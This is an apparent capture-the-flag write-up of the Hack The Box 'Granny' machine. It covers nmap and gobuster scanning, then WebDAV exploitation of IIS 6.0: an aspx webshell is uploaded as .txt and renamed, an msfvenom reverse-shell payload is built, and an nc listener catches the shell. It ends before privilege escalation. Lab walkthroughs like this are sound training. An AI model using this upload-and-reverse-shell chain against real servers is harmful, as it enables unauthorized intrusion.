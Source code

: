 # Hackthebox - Granny - Windows

- [Box on Hackthebox](https://app.hackthebox.com/machines/14)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.15                                                                                                                                                                                         1 ⨯
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-09 16:13 EDT
Nmap scan report for 10.10.10.15
Host is up (0.031s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Sun, 09 Oct 2022 20:15:23 GMT
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (89%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.28 seconds
```

## Port 80

### Gobuster

#### Directory busting

```bash
┌──(kali㉿kali)-[~/Documents/granny]
└─$ gobuster dir -u http://10.10.10.15 -w directory-list-2.3-big.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /media/sf_kali-shared/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/09 15:58:02 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 149] [--> http://10.10.10.15/images/]
/Images               (Status: 301) [Size: 149] [--> http://10.10.10.15/Images/]
/IMAGES               (Status: 301) [Size: 149] [--> http://10.10.10.15/IMAGES/]
/_private             (Status: 301) [Size: 153] [--> http://10.10.10.15/%5Fprivate/]
```

- The private folder is useless for now
- We can also change our /etc/hosts file and add this list `10.10.10.15     granny.htb`

## Check for known vulnerabilities

### Google fu

- While gobuster is running, let's have a look in Google. IIS 6.0 seems to have a possible code execution vulnerability

### Nmap with vuln script

- Nmap has great scripts including some that will check for know vulnerabilities

```bash
┌──(kali㉿kali)-[~/Documents/granny]
└─$ nmap -sV --script=vuln 10.10.10.15       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-09 16:37 EDT
Nmap scan report for granny.htb (10.10.10.15)
Host is up (0.026s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-enum: 
|   /_vti_bin/: Frontpage file or folder
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|   /_vti_bin/shtml.exe: Frontpage file or folder
|_  /images/: Potentially interesting folder
|_http-server-header: Microsoft-IIS/6.0
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
| vulners: 
|   cpe:/a:microsoft:internet_information_server:6.0: 
|       SSV:2903        10.0    https://vulners.com/seebug/SSV:2903     *EXPLOIT*
|       PACKETSTORM:82956       10.0    https://vulners.com/packetstorm/PACKETSTORM:82956       *EXPLOIT*
|       MS01_033        10.0    https://vulners.com/canvas/MS01_033     *EXPLOIT*
|       CVE-2008-0075   10.0    https://vulners.com/cve/CVE-2008-0075
|       CVE-2001-0500   10.0    https://vulners.com/cve/CVE-2001-0500
|       SSV:30067       7.5     https://vulners.com/seebug/SSV:30067    *EXPLOIT*
|       CVE-2007-2897   7.5     https://vulners.com/cve/CVE-2007-2897
|       SSV:2902        7.2     https://vulners.com/seebug/SSV:2902     *EXPLOIT*
|       CVE-2008-0074   7.2     https://vulners.com/cve/CVE-2008-0074
|       CVE-2006-0026   6.5     https://vulners.com/cve/CVE-2006-0026
|       VERACODE:21774  5.0     https://vulners.com/veracode/VERACODE:21774
|       CVE-2005-2678   5.0     https://vulners.com/cve/CVE-2005-2678
|       CVE-2003-0718   5.0     https://vulners.com/cve/CVE-2003-0718
|       VERACODE:20937  4.3     https://vulners.com/veracode/VERACODE:20937
|       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
|       CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
|       CVE-2005-2089   4.3     https://vulners.com/cve/CVE-2005-2089
|       VERACODE:31557  4.0     https://vulners.com/veracode/VERACODE:31557
|       VERACODE:27647  3.5     https://vulners.com/veracode/VERACODE:27647
|_      CVE-2003-1582   2.6     https://vulners.com/cve/CVE-2003-1582
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.43 seconds
```

- The nmap enum is actually better than the wordlist I used with Gobuster. We get a few interesing directories.

### Frontpage extension

- According to our nmap we should be able to login anonymously. It refers us to this [article](https://insecure.org/sploits/Microsoft.frontpage.insecurities.html)
- Googling around we also find [this](https://github.com/deepak0401/Front-Page-Exploit). Let's use burp and temper with the request.
- Using it we can get more info. Our front page user name is "unknown"  
![username](../.res/2022-10-10-07-46-31.png)  
- The server version is `4.0.2.2611`  
![version](../.res/2022-10-10-07-48-12.png)  

### Davtest

- With further research we find this article on [null-byte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
- Davtest is able to create a directory and was able to execute html and txt.  
![davtest](../.res/2022-10-10-10-43-11.png)  
- While browsing in the directories disclosed through nmap I saw an asmx file. Let's try to put an an asmx file test there.
- Using cadaver `cadaver http://10.10.10.15/DavTestDir_kbmSbjBY` we can connect and upload files. I get forbidden with aspx and asmx files but txt and html works.
- There is a kali webshell in aspx here `/usr/share/webshells/aspx/cmdasp.aspx`
- Let's try to upload it as txt and then move it (we can move it with davtest move command)
- `cp cmdasp.aspx cmdasp.txt`
- `put cmdasp.txt` It works and we have it on the server  
![cmdasp](../.res/2022-10-10-12-54-24.png)
- `move cmdasp.txt cmdasp.aspx` we move it  
![aspx](../.res/2022-10-10-13-01-10.png)  
- Now that we know we can do this let's make a payload with msfvenom and try to get a reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f aspx -o reverse.aspx`.
- We copy our payload to make a txt version `cp reverse.aspx reverse.txt`
- We set a listener `rlwrap nc -lnvp 4444`
- We put the txt file in the server and move it to make it executable by the server  

```bash
dav:/DavTestDir_kbmSbjBY/> put reverse.txt 
Uploading reverse.txt to `/DavTestDir_kbmSbjBY/reverse.txt':
Progress: [=============================>] 100.0% of 2747 bytes succeeded.
dav:/DavTestDir_kbmSbjBY/> move reverse.txt reverse.aspx
Moving `/DavTestDir_kbmSbjBY/reverse.txt' to `/DavTestDir_kbmSbjBY/reverse.aspx':  succeeded.
```

- We browse to http://10.10.10.15/DavTestDir_kbmSbjBY/reverse.aspx and get a shell  
![shell](../.res/2022-10-10-13-13-53.png)
- Our user is "network service"
- Let's check for possible exploi with `systeminfo` we put the result of the command in a file 

[](todo-check-for-exploits-with-win-exp-suggester)

**Coming soon**